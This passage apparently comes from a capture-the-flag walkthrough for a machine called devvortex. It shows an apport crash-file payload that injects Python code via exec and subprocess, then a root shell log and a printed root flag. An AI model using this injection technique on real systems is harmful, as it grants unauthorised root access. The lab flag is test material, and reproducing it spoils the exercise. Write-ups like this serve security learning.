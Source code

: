```bash
{'impl': 'memory', 'crash_config': exec("""
import subprocess
payload_cmd = "pkill -9 apport; gnome-calculator"
subprocess.Popen(payload_cmd, shell=True)
""", {}) }
!bash
```
> This is a little tricky to show without a moving image; if this doesn't really make much sense *visually*, check out [this article](https://donncha.is/2016/12/compromising-ubuntu-desktop/) for
a more in-depth explanation.

```bash
*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.

root@devvortex:/home/logan# whoami
root
root@devvortex:/home/logan# cat /root/root.txt
b60647d85778b3db2521377e8ee9038d
```

